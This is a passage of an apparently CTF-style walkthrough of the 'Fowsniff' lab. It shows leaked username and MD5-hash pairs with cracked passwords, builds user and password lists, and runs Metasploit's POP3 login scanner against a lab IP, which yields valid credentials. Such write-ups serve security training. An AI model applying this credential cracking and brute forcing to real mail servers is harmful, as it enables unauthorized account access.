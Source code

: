 - Now we google `fowsniff corp` since that's found on web page. Since I'm doing this room almost 6 years after it's creation I found credentials on someone's GitHub page.

  ```
  mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4 -> mailcall
  mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56 -> bilbo101
  tegel@fowsniff:1dc352435fecca338acfd4be10984009 -> apples01
  baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb -> skyler22
  seina@fowsniff:90dc16d47114aa13671c697fd506cf26 -> scoobydoo2
  stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd -> ???
  mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b -> carp4ever
  parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11 -> orlando12
  sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e -> 07011972
  ```
  
- I also cracked those hashes in Crackstation, but you can use whichever tool you like. Now create 2 lists, 1 with usernames and 1 with passwords, and lets do some brute forcing with Metasploit.

  ```
  cat users.txt 
  mauer
  mustikka
  tegel
  baksteen
  seina
  stone
  mursten
  parede
  sciana
  
  cat pass.txt    
  mailcall
  bilbo101
  apples01
  skyler22
  scoobydoo2
  carp4ever
  orlando12
  07011972
  ```

- Start Metasploit, search for pop3 login, use the scanner and will up all neccessary parameters. After that just run it and wait a bit to get valid POP3 credentials.

  ```
  msfconsole

  msf6 > search pop3 login
  
  Matching Modules
  ================
  
     #  Name                               Disclosure Date  Rank    Check  Description
     -  ----                               ---------------  ----    -----  -----------
     0  auxiliary/scanner/pop3/pop3_login  .                normal  No     POP3 Login Utility

  msf6 auxiliary(scanner/pop3/pop3_login) > set RHOSTS 10.10.207.190
  RHOSTS => 10.10.207.190
  msf6 auxiliary(scanner/pop3/pop3_login) > set USER_FILE users.txt
  USER_FILE => users.txt
  msf6 auxiliary(scanner/pop3/pop3_login) > set PASS_FILE pass.txt
  PASS_FILE => pass.txt
  msf6 auxiliary(scanner/pop3/pop3_login) > set VERBOSE false
  VERBOSE => false
  msf6 auxiliary(scanner/pop3/pop3_login) > run
  
  [+] 10.10.207.190:110     - 10.10.207.190:110 - Success: 'seina:scoobydoo2' '+OK Logged in.
  ```